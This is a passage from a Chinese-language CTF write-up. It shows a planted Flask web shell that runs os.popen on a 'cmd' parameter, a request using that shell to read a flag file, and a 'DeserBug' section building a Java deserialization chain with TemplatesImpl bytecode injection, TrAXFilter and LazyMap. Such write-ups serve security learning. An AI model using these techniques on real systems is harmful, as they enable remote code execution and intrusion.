 ```
        return os.popen(cmd).read()
    else:
        return 'shell'
    
if __name__== "__main__":
    app.run(host="127.0.0.1",port=5000,debug=True)
------WebKitFormBoundaryrxtSm5i2S6anueQi
Content-Disposition: form-data; name="submit"

&#25552;&#20132;
------WebKitFormBoundaryrxtSm5i2S6anueQi--

```

![image-20230527131218959](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202305271312995.png)

![image-20230527131252957](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202305271312997.png)

```
http://123.56.244.196:17997/flask?name=/shell?cmd=cat%2520/00cab53f1ece95d90020_flag
```

![image-20230527131325864](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202305271313912.png)

## DeserBug

题目给了 commons-collections 和 hutool 依赖, 由于前者是 3.2.2 版本的所以诸如 InvokeTransformer 之类的就不能用了

hutool 里面有 JSONArray 和 JSONObject 类, 看名字感觉很像 fastjson 的类, 但实际上经过测试它们只会在 add / put 的时候触发任意 getter / setter, 调用 toString 时并不会触发

然后题目给了一个 Myexpect 类, 它的 getAnyexcept 可以调用任意类的 public 构造方法

结合之前 cc 链的经验很容易想到 `com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter` 这个类

```java
TemplatesImpl templatesImpl = new TemplatesImpl();
ClassPool pool = ClassPool.getDefault();
CtClass clazz = pool.get(TemplatesEvilClass.class.getName());

Reflection.setFieldValue(templatesImpl, "_name", "Hello");
Reflection.setFieldValue(templatesImpl, "_bytecodes", new byte[][]{clazz.toBytecode()});
Reflection.setFieldValue(templatesImpl, "_tfactory", new TransformerFactoryImpl());

Myexpect expect = new Myexpect();
expect.setTargetclass(TrAXFilter.class);
expect.setTypeparam(new Class[]{Templates.class});
expect.setTypearg(new Object[]{templatesImpl});
```

之后需要找到从 readObject / toString 到 put / add 的链子, 根据题目给的 cc 依赖容易想到 TiedMapEntry 和 LazyMap

```java
public Object get(Object key) {
    // create value for key if key is not currently in the map
    if (map.containsKey(key) == false) {
        Object value = factory.transform(key);
        map.put(key, value);
        return value;
    }
    return map.get(key);
}
```
